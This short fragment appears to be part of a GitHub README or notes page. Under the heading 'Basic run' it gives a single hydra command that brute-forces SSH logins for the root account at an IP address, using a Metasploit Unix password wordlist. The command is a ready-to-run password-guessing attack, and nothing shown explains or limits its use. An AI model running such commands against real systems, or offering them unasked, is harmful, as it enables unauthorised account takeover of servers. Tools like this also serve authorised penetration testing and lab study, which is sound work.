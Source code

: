 # Basic run:
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh ://192.167.57.134:22 -t 4 -V
```

